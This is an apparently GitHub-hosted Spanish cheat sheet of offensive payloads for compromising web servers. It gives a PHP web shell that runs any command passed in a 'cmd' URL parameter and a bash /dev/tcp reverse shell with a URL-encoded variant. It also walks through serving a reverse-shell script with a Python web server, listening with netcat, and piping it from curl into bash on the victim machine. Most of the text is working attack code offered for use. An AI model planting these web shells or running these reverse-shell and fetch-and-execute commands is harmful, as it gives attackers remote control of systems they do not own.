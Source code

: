 # Payloads, Reverse Shell's...

### Crear parametro cmd para ejecutar codigo en URL (PHP)

Para crear un `payload` en `php` que te cree una funcion llamada `cmd` y que al ejecutar cualquier comando con el parametro `cmd` te lo muestre de forma limpia y ordenada, craendo el siguiente contenido...

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Esto si lo subimos de forma maliciosa a cualquier pagina vulnerable o login vulnerable a ello o cualquier otro sitio que interprete codigo `php` podremos hacer lo siguiente...

```
http://example.com/example_uploads/<NAME_FILE>.php?cmd=<COMMAND>
```

### Hacer una `Reverse Shell` mediante un parametro URL o en una ejecuccion de comandos

La `Reverse Shell` mas tipica es la siguiente...

```shell
bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
```

Si por ejemplo se esta haciendo mediante una `URL` por si acaso lo `URL Encodearemos` de la siguiente manera...

```shell
bash -c "bash -i >%26 /dev/tcp/<IP>/<PORT> 0>%261"
```

```
%20 = <ESPACIO>

%26 = &
```

Si esto no funcionara habra que mirar en la siguiente pagina de ``Reverse Shell`s`` donde se pueden ver muchas...

URL = https://www.revshells.com

### Hacer `Reverse Shell` con curl

Esta tecnica es la que mas suele funcionar al intentar vulnerar maquinas con `Reverse Shell's` mediante `curl`, si por ejemplo tenemos una shell interactiva en la que podemos inyectar comandos en una pagina web ya sea por terminal o por `URL` y que tenga instalado `curl` podremos hacer lo siguiente para saber que tiene la herramienta instalada...

```shell
curl http://<IP_HOST>/test
```

Estando a la escucha para saber que te llega el mensaje del envio del comando desde la maquina victima...

```shell
python3 -m http.server 80
```

Si al enviar el comando con `curl` llega un mensaje al comando de `python3` significa que la herramienta esta instalada, por lo que podremos hacer lo siguiente...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` en la maquina victima haciendo lo siguiente...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma en la maquina victima...

```shell
curl http://<IP>/ | bash
```

Y con esto ya tendriamos la shell...
